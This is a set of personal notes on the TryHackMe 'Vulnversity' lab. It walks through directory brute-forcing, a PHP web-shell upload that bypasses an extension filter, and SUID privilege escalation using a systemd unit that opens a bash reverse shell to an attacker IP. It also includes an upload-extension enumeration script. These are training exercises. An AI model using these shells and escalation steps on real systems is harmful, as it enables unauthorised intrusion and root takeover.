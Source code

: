 # TRY HACK ME NOTES
> LAB : Vulnversity
1. Reconnaissance  : Search active services on target system, OS, Versions
2. Bruteforce directories using gobuster to find any vulnerable entry points
     - /internal/ allowed to upload files
  
3. Check what kind of files are allowed to upload or can we execute those files
     - Use Burp or python script
     - We can upload .phtml
4. Upload a phpshell to server
5. Start a netcat session for phpshell and gain a non-privileged access
6. Persorm Linux Privilege excalation using SUID
  - How to search for all binaries with SUID bit set
   -  find / -perm -u=s -type f 2>/dev/null
   -  Identify a binary with root as owner
   -  Use https://gtfobins.github.io/gtfobins/systemctl/ to find how to exploit
   -  Created root.service with code:
     ```
     [Unit]
     Description=root
     
     [Service]
     Type=simple
     User=root
     ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<Attacker-IP-Address>/4242 0>&1'
     
     [Install]
     WantedBy=multi-user.target
     ```
    - Hosted file using python server
    - downloaded file to /tmp on target using wget
    - start a listner on attcker machine
    - enabled and started the service
    - We get a root access

 ISSUES/Learnings: 
 1. curly quote V/S straight quote in bash command.

 2. Python script used to enumerate file extension allowed to upload:
```
import requests
import os

ip = "<Server Ip Address >"
url = f"http://{ip}:3333/internal/index.php"

original = "index.php"
filename = "index"
extensions = [".php", ".php3", ".php4", ".php5", ".phtml"]

for ext in extensions:
    new_filename = filename + ext
    os.rename(original, new_filename)

    with open(new_filename, "rb") as f:
        files = {"file": f}
        r = requests.post(url, files=files)


        if "Extension not allowed" in r.text:
            print(f"{ext} extension not allowed")
        else:
            print(f"{ext} seems to be allowed??")

    original = new_filename
os.rename(new_filename, "index.php")
```



